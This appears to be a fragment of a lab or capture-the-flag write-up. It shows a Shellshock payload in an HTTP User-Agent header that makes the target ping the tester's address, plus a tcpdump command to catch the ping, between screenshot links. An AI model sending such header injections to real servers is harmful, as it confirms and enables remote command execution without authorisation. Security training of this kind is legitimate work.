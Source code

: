 ![image-20220927234151996](./images/image-20220927234151996.png)

check with ping

```bash
User-Agent: () { :; };ping -c 1 10.10.14.15

sudo tcpdump -ni tun0 icp
```



![image-20220927234329126](./images/image-20220927234329126.png)
